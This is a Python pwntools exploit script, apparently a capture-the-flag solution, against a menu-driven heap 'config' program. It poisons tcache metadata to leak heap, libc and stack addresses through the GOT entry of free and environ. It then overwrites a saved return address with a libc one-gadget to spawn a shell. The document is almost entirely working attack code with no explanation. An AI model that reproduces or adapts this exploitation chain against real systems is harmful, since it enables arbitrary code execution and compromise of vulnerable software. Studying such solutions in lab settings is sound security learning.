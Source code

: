 ```python
	p.sendlineafter(b"> ",b"1")
	p.sendlineafter(b"What is the id of the config?: ",f"{id_}".encode())
	p.sendlineafter(b"What is the size of the setting?: ",f"{size}".encode())
	p.sendlineafter(b"What is the setting to be added?: ",setting)
	p.recvuntil(b"Should this setting be active? [y/n]: ")
	p.sendline(b"y") if active else p.sendline(b"n")
def edit(idx: int,id_: int,size: int,setting: bytes, active: bool = True):
	p.sendlineafter(b"> ",b"2")
	p.sendlineafter(b"What is the index of the config to edit?:",f"{idx}".encode())
	p.sendlineafter(b"What is the new ID?: ",f"{id_}".encode())
	p.sendlineafter(b"What is the new size of the setting?: ",f"{size}".encode())
	if size:
		p.sendlineafter(b"What is the new setting?: ",setting)
	p.recvuntil(b"Should this be active? [y/n]: ")
	p.sendline(b"y") if active else p.sendline(b"n")
def view(idx: int):
	p.sendlineafter(b"> ",b"3")
	p.sendlineafter(b'What is the index of the config to print?: ',f"{idx}".encode())
add(0,0x250-8,b"A"*8)
add(1,0x250-8,b"B"*8)
p.sendline(b"4")
log.info("1");pause()
edit(1,0,0x250-8,p8(0)+p8(7)*34+p8(8)+p8(7)*(64-36)+p64(0))

add(1,0x250-8,b"B"*8)
p.sendline(b"4")
view(1)
p.recvuntil(b"Setting: " )
p.recv(0x40)
heap = u32(p.recv(4))
chunk0 = heap - 0x4e0
log.success(f"heap leak: {hex(heap)}")

log.info("2");pause()
#edit(1,0,0x250-8,p8(0)+p8(7)*34+p8(8)+p8(7)*(64-36)+p64(chunk0))
hold = heap - 0x240
add(1,0x250-8,p64(0)*2+p64(chunk0))
p.sendline(b"4")
edit(1,0,0x250-8,p8(2)+p8(7)*34+p8(8)+p8(7)*(64-36)+p64(hold))

add(1,0x18,p64(0x1337)+p64(e.got.free))
view(0)
p.recvuntil(b"Setting: ")
libc.address = u64(p.recv(6)+b"\0\0") - libc.sym.free
log.success(f"libc @ {hex(libc.address)}")

edit(1,1,0x18,p64(0x1337)+p64(libc.sym.environ))
view(0)
p.recvuntil(b"Setting: ")
stack = u64(p.recv(6)+b"\0\0")
log.success(f"stack: {hex(stack)}")
ret_addr = stack-0x230

add(2,0x258,b"2"*8)
p.sendline(b"4")
edit(2,0,0x250-8,p8(0)+p8(1)+p8(0)*33+p8(0)+p8(0)*(64-36)+p64(0)+p64(ret_addr-8))
add(2,0x28,p64(0)+p64(libc.address+0x4f302))
p.interactive()
```
